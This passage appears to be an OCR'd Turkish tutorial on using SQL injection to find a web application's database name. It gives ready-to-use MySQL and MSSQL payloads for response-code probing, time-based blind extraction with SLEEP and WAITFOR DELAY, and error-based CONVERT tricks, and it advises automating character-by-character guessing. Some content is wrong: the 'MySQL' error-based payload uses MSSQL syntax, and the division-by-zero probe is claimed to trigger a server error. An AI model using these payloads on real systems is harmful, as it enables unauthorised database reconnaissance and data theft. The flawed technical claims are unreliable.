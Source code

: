 

7. HTTP Yanıt Kodlarını Kullanarak Veritabanı İsmini Öğrenme
Eğer bir web uygulaması belirli hatalara farklı HTTP yanıt kodlarıyla cevap veriyorsa, yanıt kodları ile veri sızdırabilirsin.
sql
```sql
' AND IF(database()='test_db', 1/0, 1)-- -
```

- Eğer 500 Internal Server Error döndürürse, veritabanı adı test_db olabilir.





SQL enjeksiyonuyla veritabanı adını öğrenme konusunda daha derine inmek, genellikle çok daha karmaşık teknikler kullanmayı gerektirir. Bu yöntemler, yalnızca teknik bilgi gerektirmekle kalmaz, aynı zamanda hedef sistemin yapılandırmasına ve mevcut güvenlik önlemlerine de bağlıdır. İşte daha derinlemesine SQL enjeksiyonuna dayalı veritabanı keşfi için kullanılan gelişmiş teknikler:

1. Blind SQL Injection (Kör SQL Enjeksiyonu) İleri Düzey Kullanımı
Blind SQL Injection, hata mesajları verilmediğinde kullanılır ve genellikle sayfa yanıtlarındaki zamanlama farkları veya sayfa değişiklikleri üzerinden bilgi sızdırılır. Eğer veritabanı adı hakkında bilgi edinmek istiyorsan, aşağıdaki stratejiler kullanılır:
Zaman Tabanlı Blind Injection (Time-Based Blind SQLi)
Eğer sistem herhangi bir hata mesajı döndürmüyorsa, sistem yanıtlarının zamanlamalarını inceleyerek veritabanı adını öğrenebilirsin.
MySQL Örneği:
Veritabanı adı "test_db" olduğunu doğrulamak için şu sorguyu kullanabilirsin:
sql
```sql
' AND IF(database() = 'test_db', SLEEP(5), 0)-- -
```

Eğer sayfa 5 saniye gecikirse, doğru veritabanı adını bulmuş olursun.
Bu tür bir saldırı karakter-karakter de yapılabilir. Örneğin:
sql
```sql
' AND IF(SUBSTRING(database(),1,1) = 't', SLEEP(5), 0)-- -
```

Bu, veritabanı adının ilk harfi t ise sayfanın 5 saniye beklemesini sağlar.
MSSQL Örneği:
sql
```sql
' IF(DB_NAME() = 'test_db') WAITFOR DELAY '00:00:05'-- -
```

Bu teknik, MSSQL veritabanında da aynı şekilde çalışabilir.
🔧 Bu tür sorgularla her bir karakteri doğru tahmin etmek için bir döngü veya otomatikleştirilmiş bir araç kullanman faydalı olacaktır.

2. Error-Based SQL Injection (Hata Tabanlı SQL Enjeksiyonu)
Hata tabanlı SQL enjeksiyonu, hata mesajları döndüren sistemlerde veritabanı ismini ve diğer iç bilgileri elde etmek için kullanılır.
MySQL Error-Based SQL Injection:
Eğer bir veritabanı adı öğrenmek istiyorsan, aşağıdaki sorgu çalıştırılabilir:
sql
```sql
' AND 1=CONVERT(int, (SELECT DATABASE()))-- -
```
Bu sorgu, database() fonksiyonunu kullanarak mevcut veritabanı adını çıkarmaya çalışır. Eğer sistem MySQL kullanıyorsa, hata mesajı veritabanı adını içerir.
MSSQL Error-Based SQL Injection:
MSSQL veritabanında DB_NAME() fonksiyonunu kullanarak şu şekilde çalıştırabilirsin:
sql
```sql
' AND 1=CONVERT(int, (SELECT DB_NAME()))-- -
```
Sistem eğer hata mesajları döndürüyor ve veritabanı adı doğru şekilde yazıldıysa, mesajda veritabanı adını görmelisin.